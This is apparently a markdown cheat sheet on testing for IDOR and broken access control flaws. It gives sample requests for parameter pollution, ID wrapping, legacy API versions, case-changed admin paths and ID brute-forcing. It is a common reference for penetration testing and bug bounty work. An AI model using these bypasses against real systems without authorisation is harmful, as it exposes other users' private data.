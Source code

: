 # IDOR

Basically try to screw with evertything.

## Add parameters into the endpoints
```
GET /api_v1/messages --> 401
vs 
GET /api_v1/messages?user_id=victim_uuid --> 200
```

## HTTP Parameter pollution
```
GET /api_v1/messages?user_id=VICTIM_ID --> 401 Unauthorized
GET /api_v1/messages?user_id=ATTACKER_ID&user_id=VICTIM_ID --> 200 OK

GET /api_v1/messages?user_id=YOUR_USER_ID[]&user_id=ANOTHER_USERS_ID[]
```

## JSON Parameter Pollution:
```
POST /api/get_profile
Content-Type: application/json
{“user_id”:<legit_id>,”user_id”:<victim’s_id>}
```

## Add .json to the endpoint, if it is built in **Ruby**!
```
/user_data/2341 --> 401 Unauthorized
/user_data/2341.json --> 200 OK
```

## Test on outdated API Versions
```
/v3/users_data/1234 --> 403 Forbidden
/v1/users_data/1234 --> 200 OK
```

## Wrap the ID with an array.
```
{“id”:111} --> 401 Unauthriozied
{“id”:[111]} --> 200 OK
```

## Wrap the ID with a JSON object:
``` 
{“id”:111} --> 401 Unauthriozied

{“id”:{“id”:111}} --> 200 OK
```

## Missing Function Level Access Control

```
GET /admin/profile -> 401
GET /ADMIN/profile -> 200
```

- Try to send a wildcard(*) instead of an ID.
- If it is a number id, be sure to test through a large amount of numbers, instead of just guessing
- If endpoint has a name like /api/users/myinfo, check for /api/admin/myinfo
- Replace request method with GET/POST/PUT/DELETE/PATCH
- Check if Referer header is used to validate requests
- Swap GUID with numeric ID or email
- Try obvious GUIDs such as 00000-0000-0000-00000 or 11111-11...
